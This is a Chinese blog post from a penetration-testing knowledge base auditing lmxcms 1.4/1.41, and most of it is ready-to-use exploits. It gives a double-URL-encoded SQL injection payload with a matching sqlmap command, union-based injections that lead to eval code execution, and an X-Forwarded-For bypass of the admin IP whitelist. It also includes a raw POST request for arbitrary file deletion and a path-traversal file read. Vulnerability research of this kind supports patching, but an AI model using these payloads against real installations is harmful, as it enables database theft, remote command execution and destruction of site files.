 ```yaml
---
title: lmxcms1.41源码审计
copyright: true
date: 2022-02-10 14:52:26
tags: 渗透测试
---
```

lmxcms源码审计
<!-- more -->
**1.4前台sql注入漏洞**  
c/index/TagsAction.class.php  
1.构造函数通过_POST方式获取name变量  
2.p函数对数据校验，过滤关键字+addslashes转义  
3.通过delHtml函数（strip_tag函数）去除标签对，进行一次url编码  
4.sql拼接查询   
![1.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/1.png?raw=true)  
![2.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/2.png?raw=true)  
![3.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/3.png?raw=true)  
数据检查后进行了一次urldecode，可以通过两次url编码绕过addslashes函数的转义  
```
poc: 'and (updatexml(1,concat(0x7e,(database()),0x7e),1)) and '1'='1  

两次Urldecode：http://127.0.0.1:8081/lmxcms1.4/index.php?m=tags&a=index&name=%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%64%25%36%63%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%63%25%33%31%25%32%39%25%32%39%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%37%25%33%31%25%32%37%25%33%64%25%32%37%25%33%31
```
![4.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/4.png?raw=true)  
lmx1.txt  
```
GET /lmxcms1.4/index.php?m=tags&a=index&name=1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=jiit711t06f5plsu8fo7bbqla2; XDEBUG_SESSION=XDEBUG_ECLIPSE
Upgrade-Insecure-Requests: 1
```
sqlmap：  
```
python2 sqlmap.py -r lmx1.txt --technique=E -v3 --tamper=chardoubleencode -p name --dbs
```
<br>
**1.4/1.41后台sql注入漏洞**  
c/index/AcquisiAction.class.class.php  
POST的参数未过滤，但后台本身可以执行sql语句（无回显），此漏洞危害较低  
![5.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/5.png?raw=true)  
```
poc：1' and updatexml(0,concat(0x7e,database()),1) and '1
```
![6.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/6.png?raw=true)  
c/admin/AcquisAction.class.php 中 311行查询时对获取的lid参数未检验，且sql语句直接拼接，导致sql注入  
![7.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/7.png?raw=true)  
![8.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/8.png?raw=true)  
```
Poc: http://127.0.0.1:8081/lmxcms1.4/admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,(select+1+and+(updatexml(1,concat(0x7e,(select+database()),0x7e),1))),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![9.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/9.png?raw=true)  
<br>
**1.4/1.41绕过ip白名单**  

后台ip白名单可通过X-Forwarded-For 绕过  
![10.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/10.png?raw=true)  
<br>
**1.4/1.41后台任意代码执行**
c/admin/AcquisAction.class.php 中 318行eval执行了$temdata['data']参数，该参数的值是从lmx_cj_list数据表中查询出的array字段的值，而查询时存在sql注入导致该字段可控，从而导致任意代码执行。  
![11.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/11.png?raw=true)  
```
Poc: admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,'1;system(\'ipconfig\');',1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![12.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/12.png?raw=true)  
<br>
**1.4/1.41 后台任意文件删除**  
c/admin/FileAction.class.php 中使用unlink方法删除文件，unlink方法调用php unlink方法，此处未对传入的路径做检查，存在任意文件删除。  
![13.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/13.png?raw=true)  

poc:  
```
POST /lmxcms1.4/admin.php?m=File&a=delete HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/lmxcms1.4/admin.php?m=File&a=index&type=0
Upgrade-Insecure-Requests: 1

type=0&delImages=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87&fid%5B%5D=7#####/test.txt
```
其中test.txt在index.php 同级目录下，且可使用..进行目录穿越。  
<br>
**1.4/1.41 后台任意文件读取**  
c/admin/TemplateAction.class.php  
![14.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/14.png?raw=true)  
![15.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/15.png?raw=true)  
![16.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/16.png?raw=true)  
poc:
```
http://localhost:8081/lmxcms1.4/admin.php?m=Template&a=editfile&dir=../flag.txt
```

实战中限制多  
1.前台sql注入dump出的密码哈希值无法直接爆破（有Install时随机的盐值保护），直接爆破web界面有错误次数限制。    密码hash =md5(sha1(data+ random number(9位))  
2.在Mysql5.6.34版本以后由于secure_file_priv的限制又无法写马。  
3.命令执行漏洞在后台。  

